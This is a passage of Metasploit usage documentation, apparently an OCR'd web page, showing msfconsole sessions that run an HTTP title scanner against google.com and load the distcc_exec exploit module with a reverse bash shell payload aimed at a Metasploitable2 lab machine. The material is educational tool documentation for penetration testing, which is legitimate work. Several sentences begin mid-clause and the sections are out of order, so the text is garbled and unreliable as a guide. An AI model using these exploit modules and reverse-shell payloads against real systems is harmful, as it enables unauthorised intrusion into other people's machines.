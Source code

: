 Each module offers configurable options which can be viewed with the `show options`, or aliased `options`, command:
```msf
msf6 auxiliary(scanner/http/title) > show options

Module options (auxiliary/scanner/http/title):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        80               yes       The target port (TCP)
   SHOW_TITLES  true             yes       Show the titles on the console as they are grabbed
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   STORE_NOTES  true             yes       Store the captured information in notes. Use "notes -t http.title" to view
   TARGETURI    /                yes       The base path
   THREADS      1                yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/title) > 
```

the module will run against:
```msf
msf6 auxiliary(scanner/http/title) > set RHOSTS google.com
RHOSTS => google.com
```

The `run` command will run the module against the target, showing the target's HTTP title:
```msf
msf6 auxiliary(scanner/http/title) > run

[+] [142.250.180.14:80] [C:301] [R:http://www.google.com/] [S:gws] 301 Moved
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

both `RHOSTS` and enabling `HttpTrace` functionality:
```msf
msf6 > use unix/misc/distcc_exec
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/misc/distcc_exec) > 
```

### Running exploit modules
For instance - targeting a vulnerable Metasploitable2 VM and using the `unix/misc/distcc_exec` module:
```msf
msf6 exploit(unix/misc/distcc_exec) > options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_bash):
```